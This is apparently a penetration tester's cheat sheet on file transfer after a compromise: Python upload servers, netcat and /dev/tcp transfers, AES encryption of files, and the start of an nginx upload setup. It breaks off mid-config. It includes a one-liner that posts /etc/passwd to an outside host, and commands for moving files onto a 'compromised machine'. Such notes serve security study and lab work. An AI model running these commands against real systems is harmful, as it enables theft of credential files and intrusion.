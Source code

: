 ### python upload methods
```python
python3 -m uploadserver

```
```python
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

## file transfers with Netcat and ncat
```bash
# compromised machine open a listening port 
# origianl nc
nc -lvnp 8000 > file.exe
# ncat
ncat -l -p 8000 --recv-only > file.exe
```
- send the file from attacker
```bash
nc -q 0 <ip> <port> < file.exe
# with ncat
ncat --send-only <ip> <port> < file.exe

```
- do the opposite to well, do the opposite

- if nc is not installed try this
```cat < /dev/tcp/<ip>/<port> > file.exe```

# encrypting files with aes

- windows
```powershell
# first install DR tools Module
Import-Module .\Invoke-AesEncryption.ps1
Invoke-AESEncryption -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt
```
- linux
```bash
openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc
```
```bash
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd
```
# using nginx
- make a directory with mkdir -p
- make sure either the www-data or http user is owner of the directory and its contents
- you can uncomment the default user in nginx.conf
- create or add to the /etc/nginx/sites-available a file like :
server {
    listen 9001;
    